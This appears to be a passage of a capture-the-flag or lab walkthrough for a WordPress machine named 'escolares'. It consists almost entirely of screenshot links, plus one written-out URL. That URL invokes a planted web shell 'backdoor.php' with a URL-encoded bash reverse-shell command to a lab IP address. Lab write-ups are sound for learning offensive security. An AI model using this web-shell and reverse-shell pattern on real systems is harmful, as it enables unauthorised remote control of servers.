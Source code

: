 ![](images/images-escolares/Pasted%20image%2020250227120542.png)

![](images/images-escolares/Pasted%20image%2020250227120705.png)

![](images/images-escolares/Pasted%20image%2020250227120832.png)

![](images/images-escolares/Pasted%20image%2020250227121259.png)

![](images/images-escolares/Pasted%20image%2020250227121856.png)

![](images/images-escolares/Pasted%20image%2020250227121919.png)

![](images/images-escolares/Pasted%20image%2020250227133106.png)

![](images/images-escolares/Pasted%20image%2020250227133547.png)

![](images/images-escolares/Pasted%20image%2020250227133609.png)



http://escolares.dl/wordpress/wp-admin/user/backdoor.php?cmd=/bin/bash+-c+%22bash+-i+%3E%26+/dev/tcp/172.17.0.1/7777+0%3E%261%22

![](images/images-escolares/Pasted%20image%2020250227134332.png)

![](images/images-escolares/Pasted%20image%2020250227134300.png)

![](images/images-escolares/Pasted%20image%2020250227134437.png)
![](images/images-escolares/Pasted%20image%2020250227134542.png)

![](images/images-escolares/Pasted%20image%2020250227134701.png)



